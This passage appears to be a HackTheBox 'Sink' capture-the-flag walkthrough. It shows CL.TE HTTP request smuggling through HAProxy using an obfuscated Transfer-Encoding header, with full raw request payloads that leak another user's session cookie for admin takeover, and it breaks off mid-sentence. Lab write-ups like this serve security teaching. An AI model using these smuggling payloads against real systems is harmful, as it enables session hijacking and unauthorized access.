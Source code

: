 

SMUGGLING
<br>
https://chr0x6eos.github.io/2021/09/18/htb-Sink.html
<br>
https://0xdf.gitlab.io/2021/09/18/htb-sink.html
<br>
https://freakydodo.medium.com/hackthebox-sink-writeup-htb-walkthrough-7f9ffb9652dc
<br>
https://github.com/PortSwigger/http-request-smuggler
<br>
https://github.com/chenjj/Awesome-HTTPRequestSmuggling
<br>
<br>
<br>

Looking at the response, we can notice something quite interesting: Via: haproxy. Let us research what haproxy is and if there are any vulnerabilities.

HAProxy research
After some searching I eventually tried to look for exploits on GitHub using this Google-query. This gives us a GitHub page that showcases a HTTP-Request smuggling vulnerability in HAProxy using CL.TE (Content-Length & Transfer-Encoding). Normally, the HAProxy will prioritize the Transfer-Encoding, stripping the Content-Length and therefore removing our smuggled request. By obfuscating the TE-header, the proxy will use the CL to determine the length of the request, forwarding our smuggled request. The backend however, will use the Transfer-Encoding and therefore interpret our smuggled request.

Example (Taken from the GitHub Post):

Normal request
Request to HAProxy:

POST / HTTP/1.1
Host: 127.0.0.1:1080
Content-Length: 6
Transfer-Encoding: chunked

0

X
Request forwarded to backend:

POST / HTTP/1.1
Host: 127.0.0.1:1080
Transfer-Encoding: chunked
X-Forwarded-For: 172.21.0.1

0
The X is stripped!

Obfuscated TE
Request to HAProxy:

POST / HTTP/1.1
Host: 127.0.0.1:1080
Content-Length: 6
Transfer-Encoding:[\x0b]chunked

0

X
Request forwarded to backend:

POST / HTTP/1.1
Host: 127.0.0.1:1080
Content-Length: 6
Transfer-Encoding:
                  chunked
X-Forwarded-For: 172.21.0.1

0

X
The X gets forwarded!

Exploiting CL.TE HTTP request smuggling
Let us use the knowledge we just learned and try to exploit this vulnerability. Let us try to smuggle our request to create two notes.

For this we have to create follow request:

POST /notes HTTP/1.1
Host: 10.10.10.225:5000
Content-Type: application/x-www-form-urlencoded
Content-Length: 252
Connection: keep-alive
Cookie: session=eyJlbWFpbCI6ImNocm9ub3NAbWFpbC5jb20ifQ.YFH7WA.tGBwSBQs-zae1j911VVDD3m_MI4
Transfer-Encoding:[\x0b]chunked

6
note=t
0

POST /notes HTTP/1.1
Host: localhost:5000
Content-Type: application/x-www-form-urlencoded
Content-Length: 500
Connection: keep-alive
Cookie: session=eyJlbWFpbCI6ImNocm9ub3NAbWFpbC5jb20ifQ.YFH7WA.tGBwSBQs-zae1j911VVDD3m_MI4

note=
Obfuscating TE-Header
We now need to obfuscate the TE-Header. Luckily, we can easily do this using Burp:

Obfuscating TE

We can now send the request and check how many notes were created.

Notes created

We successfully smuggled the request and created two notes! Let us check each note out!

Note 1

Hmm this note is empty… Let us see if the other note holds any information…

Note 2

We see a parts of a request in the second note!

Leaking HTTP-request
As only the smuggled request results into an interesting request, let us try to make the first request a comment and the second request a note. This way, we only create one note and this note will container the leaked request. Furthermore, let us increase the Content-Length of the second post to get more parts of the request. Let us increase it from 100 to 250 (same length as the first request).

POST /comment HTTP/1.1
Host: 10.10.10.225:5000
Content-Type: application/x-www-form-urlencoded
Content-Length: 250
Connection: keep-alive
Cookie: session=eyJlbWFpbCI6ImNocm9ub3NAbWFpbC5jb20ifQ.YFH7WA.tGBwSBQs-zae1j911VVDD3m_MI4
Transfer-Encoding:[\x0b]chunked

4
msg=
0

POST /notes HTTP/1.1
Host: localhost:5000
Content-Type: application/x-www-form-urlencoded
Content-Length: 250
Connection: keep-alive
Cookie: session=eyJlbWFpbCI6ImNocm9ub3NAbWFpbC5jb20ifQ.YFH7WA.tGBwSBQs-zae1j911VVDD3m_MI4

note=
Note 3

We can see now parts of a session-cookie that differs from ours. However, the request is still not complete! Let us increase the Content-Length once again!

POST /comment HTTP/1.1
Host: 10.10.10.225:5000
Content-Type: application/x-www-form-urlencoded
Content-Length: 250
Connection: keep-alive
Cookie: session=eyJlbWFpbCI6ImNocm9ub3NAbWFpbC5jb20ifQ.YFH7WA.tGBwSBQs-zae1j911VVDD3m_MI4
Transfer-Encoding:[\x0b]chunked

4
msg=
0

POST /notes HTTP/1.1
Host: localhost:5000
Content-Type: application/x-www-form-urlencoded
Content-Length: 300
Connection: keep-alive
Cookie: session=eyJlbWFpbCI6ImNocm9ub3NAbWFpbC5jb20ifQ.YFH7WA.tGBwSBQs-zae1j911VVDD3m_MI4

note=
Note 4

We finally get the full request! The session-cookie could be the cookie of the administrator! Let us replace our cookie with the leaked one.

Admin session on port 5000
Replacing our cookie and reloading /notes, we get following page shown:

